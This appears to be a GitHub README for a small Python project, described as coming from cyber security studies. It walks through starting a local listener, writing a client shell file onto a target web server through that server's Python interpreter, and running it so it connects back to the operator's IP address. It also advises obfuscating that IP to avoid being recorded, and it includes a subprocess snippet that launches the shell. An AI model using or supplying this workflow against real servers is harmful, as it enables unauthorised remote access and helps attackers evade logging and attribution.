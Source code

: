 
# glowing-fishstick

This project was started as a result of Cyber Security studies, created purely for testing purposes to demonstrate ability to access web servers with python interpreters and read/write access.

## Server side listener

First run `serverListener.py` locally to ensure you have the listener ready, the connection cannot be made unless this is running first.

```python serverListener.py```

## Write the client side python file remotely

You then can run `pythonWriter.py` using the target web servers python interpreter window. This will only work if the web server is set up to allow write access.

This script will create the `clientShell.py` file on the remote server.

## Executing the client shell

When the server is running locally and the client shell python script is created you can use the python interpreter to execute the python file, substituting the <IP_ADDRESS> value with your IP address.

Note: depending on the servers setup, it may record the IP address used and any other inputs made, so best to use obfuscation techniques when providing an IP address.

```
import subprocess  

# Define the command to run your Python script
command = "python clientShell.py <IP_ADDRESS>"

# Use subprocess to run the command
try:
	subprocess.run(command, shell=True, check=True)
	except subprocess.CalledProcessError as e:
		print(f"Error: {e}")
```